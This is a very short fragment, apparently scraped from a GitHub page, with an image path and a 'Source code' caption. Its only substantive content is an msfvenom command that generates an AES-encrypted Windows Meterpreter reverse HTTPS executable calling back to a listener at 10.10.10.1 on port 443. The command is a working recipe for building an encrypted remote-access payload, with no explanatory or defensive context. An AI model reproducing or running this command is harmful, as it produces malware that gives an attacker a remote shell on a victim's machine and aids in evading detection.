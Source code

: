 msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.10.1 LPORT=443 -f exe -o enrypted.exe --encrypt aes256 --encrypt-key davielpatem123